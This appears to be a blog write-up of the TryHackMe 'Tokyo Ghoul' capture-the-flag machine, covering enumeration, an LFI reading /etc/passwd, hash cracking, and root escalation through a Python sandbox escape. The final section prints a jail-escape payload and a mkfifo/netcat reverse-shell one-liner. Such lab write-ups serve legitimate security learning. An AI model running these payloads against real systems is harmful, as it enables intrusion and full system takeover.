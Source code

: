 ```yaml
---
layout: project
type: project
image: images/writeups/thm/tokyo-ghoul/logo.jpeg
title: Tokyo Ghoul - TryHackMe
permalink: writeups/tokyo-ghoul
# All dates must be YYYY-MM-DD format!
date: 2021-03-18
labels:
  - TryHackMe
  - boot2root
  - Medium
  - LFI
  - Python Sandbox
  - Enumeration
summary: Help kaneki escape jason room in this Tokyo Ghoul inspired machine.
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

## Enumeration

Starting off with rustscan to quickly scan all ports

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/1.png">

Performing a full scan with nmap on those ports

```
┌──(root💀Toyin)-[~/infosec/thm/tokyo-ghoul]
└─# nmap -sS -T4 -A -p 21,22,80 -oN nmap 10.10.7.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-18 20:28 WAT
Nmap scan report for 10.10.7.110
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.169.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   196.06 ms 10.8.0.1
2   196.02 ms 10.10.7.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```

I added the target IP to my /etc/hosts as ghoul.thm so i won't have to type the IP all the time

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/2.png">

### FTP

Starting my poking around on ftp port 21 since anonymous login is available and nmap showed an intersting file present

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3.png">

Looking further into the files i find need_to_talk to be an executable. I ran it and got some useful information back. I used rabin2 to read the strings from the data section and found what was likely to be the passphrase

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3-1.png">

After getting the “passphrase” I decided to try it to extract data from the image i got from the ftp. I ended up with dots and dashes, so morse code, and went to my trusty chef to cook up something

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/4.png">

After tweaking the recipe I got what was surely a hidden directory

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/5.png">

### HTTP

Looking at the source for http://ghoul.thm I see a hint about anonymous ftp login but I've already done that same hint in http://ghoul.thm/jasonroom.html
Going into the directory I found, I see clear instructions to scan it so it would be quite rude not to

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/6.png">

gobuster took it's time but returned something. i should have probably used ffuf instead

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/7.png">

## Exploitation

Going to page i find that the links have get parameters that could possibly be LFI exploitable

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/8.png">

Trying basic LFI payload of ../../../../../../etc/passwd returned a message of “no no no silly don't do that” so i used ffuf to test various payloads and got a hit

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/9.png">

I used curl to get the contents and luckily also got a password hash for the user kamishiro

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/10.png">

Cracking the hash using hashcat i got the password for kamishiro and then logged in via ssh

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/11.png">

## Privilege Escalation

Upon logging in I ran "sudo -l" to see what sudo privileges the user had. I found that the user could execute a certain script as root
Checking the script it showed that it uses the “exec()” function therefore it can execute user input. It does have some filters so i would have to use a payload that doesn't include any of those

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/12.png">

using the payload below i was able to bypass the “python sandbox/jail”

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cmd')
```
reference: [Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/13.png">

Using the payload below to get a reverse shell as root

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.169.153 4444 >/tmp/f')
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/14.png">

pwned

